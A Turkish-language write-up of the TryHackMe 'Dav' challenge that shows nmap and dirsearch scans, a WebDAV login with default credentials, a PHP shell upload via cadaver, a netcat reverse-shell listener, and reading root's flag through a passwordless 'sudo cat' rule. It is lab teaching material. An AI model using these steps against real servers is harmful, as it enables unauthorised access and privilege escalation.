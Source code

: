 ```yaml
---
title: 'TryHackMe | Dav WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [webdav, sudo]
render_with_liquid: false
---
```


Bu yazımda TryHackMe platformunda yer alan “Dav” isimli meydan okumanın çözümünü göstereceğim. Öncelikle hedef’in üzerinde çalışan servisleri ve versiyonlarını öğrenmek adına bir nmap taraması gerçekleştireceğim.

```console
$ nmap -sV -sC -T4 10.10.112.72
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Tarama sonucunda sadece 80 numaralı portun açık olduğunu ve üzerinde Apache’nin 2.4.18 sürümünün çalıştığını öğrendim. Bu sürümde herhangi bir zafiyet bulunmuyor. Web uygulamasında ise Apache'nin varsayılan sayfası bulunuyor. Web uygulaması hakkında daha fazla bilgi toplamak için dirsearch aracını kullanacağım.

```console
$ dirsearch -u 10.10.112.72
[09:27:54] 401 -  459B  - /webdav/
[09:27:54] 401 -  459B  - /webdav/index.html
[09:27:54] 401 -  459B  - /webdav/servlet/webdav/
```

Tarama sonucunda 401 numaralı durum kodu ile webdav dizininin bulunduğunu öğrendik. Varsayılan kullanıcı adı ve parola ile giriş yapabiliyoruz.

```console
$curl -u "wampp:xampp" http://10.10.112.72/webdav/
...
<td><a href="passwd.dav">passwd.dav</a></td><td align="right">2019-08-25 20:43  </td><td align="right"> 44 </td><td>&nbsp;</td></tr>
...
```

Dizindeki passwd.dav dosyası içerisinde giriş yaptığımız kullanıcı bilgileri barınıyor. Cadaver aracını kullanarak içerisine php shell yükleyeceğim.

```console
$ cadaver http://10.10.112.72/webdav/
Username: wampp
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5493 bytes succeeded.
```

Yüklediğim php dosyasını çalıştırdıktan ve dinlemeye aldıktan sonra 1234 numaralı port üzerinden bir bağlantı elde ettim.

```console
$nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.26.33] 48276
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:48:36 up 5 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

/home/merlin dizininde bulunan user.txt dosyasındaki bayrağı aldıktan sonra “sudo -l” komutunu kullandım ve cat komutunu kullanarak root haklarında işlemler yapabileceğimi öğrendim

```console
www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Tabi /etc/shadow dosyasında root kullanıcısının hash’i bulunmuyor. Diğer kullanıcıların hashlerini kırmakla uğraşmak istemediğimden doğrudan /root/root.txt dosyasından son bayrağı alıyorum.

```console
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
1011***7af7afa5
www-data@ubuntu:/home/merlin$
```
